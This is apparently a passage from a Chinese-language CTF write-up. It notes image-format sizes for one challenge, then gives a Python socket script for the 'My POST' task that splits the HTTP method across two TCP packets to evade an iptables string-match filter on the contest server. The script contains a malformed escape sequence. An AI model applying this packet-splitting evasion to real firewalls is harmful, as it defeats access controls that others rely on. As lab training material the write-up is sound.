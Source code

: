 | Type        | Size  |
| ----------- | ----- |
| PNG         | ~2kb  |
| AVIF (AV1)  | ~2kb  |
| HEIF (HEVC) | 552b  |
| WEBP (VP8)  | 176b  |
| EPS         | ~300b |
| SVG         | 170b  |
| SVGZ (GZIP) | 120b  |

笔者当时也尝试了JPEG XL和他的前身[FLIF](https://en.wikipedia.org/wiki/Free_Lossless_Image_Format)，不过尝试都集中在了怎么让他用不同的分辨率编码亮度和颜色信息等，现在看来反而是研究imagemagick的[canvas](https://legacy.imagemagick.org/Usage/canvas/)指令比较符合题目的想法。

## Komm, süsser Flagge

### 我的 POST

iptables的string filter只在一个包内匹配，把PO和ST分开发就行。

```python
import socket

def send_http_request():
    # 创建一个socket对象
    s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    
    # 连接到服务器
    s.connect(("202.38.93.111", 18081))

    # 发送请求的第一部分
    request_part1 = "PO"
    s.sendall(request_part1.encode())

    # 发送请求的第二部分
    request_part2 = "ST / HTTP/1.1\r\nHost: 202.38.93.111:18080\r\nContent-Length: 100\r\n\r\k="
    s.sendall(request_part2.encode())

    # 接收响应
    response = s.recv(4096)
    print(response.decode())

    # 关闭socket
    s.close()

send_http_request()
```
